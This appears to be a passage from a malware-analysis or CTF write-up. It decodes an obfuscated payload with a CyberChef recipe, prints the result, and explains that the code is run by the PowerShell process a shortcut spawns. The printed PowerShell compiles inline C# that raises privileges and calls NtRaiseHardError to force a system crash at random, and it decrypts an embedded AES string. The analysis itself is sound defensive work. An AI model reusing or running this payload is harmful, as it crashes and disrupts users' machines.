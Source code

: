 ```
https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'%5C%5C%5E'%7D,'',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)Remove_null_bytes()
```

![alt text](assets/image-154.png)

Here is the code in the above image.

```
$s='using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';$c=New-Object System.CodeDom.Compiler.CompilerParameters;$c.CompilerOptions='/unsafe';$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe"
```

Let's remove stuff related to powershell from the above code. You would get the following code, which is a [C#](<https://en.wikipedia.org/wiki/C_Sharp_(programming_language)>) code. Remember that **System Informer** showed that the `powershell.exe` process that was spawned by the shortcut is a **managed process** and we identified that there is going to be some **managed code** is to be run by that powershell process, we have finally found the managed code that was to be executed.
